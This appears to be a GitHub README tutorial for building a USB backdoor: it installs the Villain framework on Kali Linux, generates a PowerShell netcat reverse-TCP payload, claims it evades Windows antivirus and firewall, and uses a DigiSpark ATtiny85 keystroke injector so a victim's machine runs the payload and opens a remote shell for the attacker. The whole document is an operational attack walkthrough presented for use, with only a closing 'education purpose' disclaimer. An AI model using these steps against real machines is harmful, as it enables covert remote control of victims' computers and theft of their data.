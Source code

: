 # Network-Security

# Requirements:
•	 Kali Linux (attacker’s machine) <br>
•	 Windows 11 (victim’s machine) <br>
•	 Villain Tool on Kali Linux <br>
•	 DigiSpark Attiny85 <br>
•	 Arduino IDE <br>

# Installing Villain Tool
Install the latest version of Villain manually:<br>
```console
sudo git clone https://github.com/t3l3machus/Villain.git<br>
```
![1](https://github.com/mishqatabid/Network-Security/assets/145700715/09fc9dac-f0db-40b0-a0f4-40429e2849f9)<br>

Install the `requirements.txt` <br>
```
cd ./Villain
pip3 install -r requirements.txt
```
![2](https://github.com/mishqatabid/Network-Security/assets/145700715/bf6b1320-018e-4696-9bfa-531802b8824a)<br>

You should also install `gnome-terminal` (required for one of the framework's commands):<br>
```
sudo apt update&&sudo apt install gnome-terminal
```

![3](https://github.com/mishqatabid/Network-Security/assets/145700715/193d2fe2-69b8-4d75-bb41-f9f8c4a05611)<br>

Now it is ready to use<br>

![4](https://github.com/mishqatabid/Network-Security/assets/145700715/58e48912-81fa-4e9f-9c00-8142a1c0b8ec)<br>

# Generate & Test Payload
## Generating Payload
As Villain tool is operating, we will use it to generate to generate the required payload for our backdoor. <br>
To generate the payload, write the keyword generate, specify the type of payload you want to generate, then specify the local host and click enter to get the desired payload<br>
```
generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 
```
![5](https://github.com/mishqatabid/Network-Security/assets/145700715/9ce703b6-b38c-490d-95fb-2053b6abdf96)<br>

## Testing Payload
•	 The payload is generated and it’s time to test the payload. <br>
•	 For testing we are using Windows 11<br>
•	 Open the PowerShell, paste the payload on shell and click enter <br>
•	 You can witness that the payload is running successfully and have bypassed the Windows Antivurus and Firewall

![8](https://github.com/mishqatabid/Network-Security/assets/145700715/0cdfab1e-1864-4f2a-88b6-769287d7126c)<br>

# Deploying Payload
•	 To deploy the payload, we will download the [Arduino IDE](https://www.arduino.cc/en/software)<br>
•	 Open the IDE, create a new sketch file and write down the code for Digispark Attiny85.<br> 
•	 The [Sketch](https://github.com/mishqatabid/Network-Security/blob/main/sketch.ino) is then compiled and uploaded on Arduino present in Digispark Attiny85<br>

![9](https://github.com/mishqatabid/Network-Security/assets/145700715/72708055-3aa5-4420-997f-4c04f5cfc400)<br>

# Backdoor
•	 Now when the victim inject the Attiny85 in its machine. <br>
•	 After few seconds, search bar is opens and PowerShell is searched<br>
•	 It opens the PowerShell, then automatically pastes the payload and click enter to execute it.<br>
•	 Once the script is executed you can witness that a backdoor session has been established on the Villain terminal on attacker’s machine.<br>

![1](https://github.com/mishqatabid/Network-Security/assets/145700715/14a21b81-32fb-4aea-a391-cf8f05fcc434)<br>

•	 Now by typing sessions on the Villain terminal, you can see all the possible session that has been established using the payload.<br>
•	 It contains Session ID, IP Address, OS Type, User, Owner and Status.<br>
![2](https://github.com/mishqatabid/Network-Security/assets/145700715/2e9c453d-733a-4f26-a2a0-6d2f5fb5daeb)<br>
![3](https://github.com/mishqatabid/Network-Security/assets/145700715/5573c2c2-8853-424c-8717-e8e0e623f528)<br>

Now the backdoor has been created, you can easily execute any command<br>

# Use this for Education Purpose ONLY
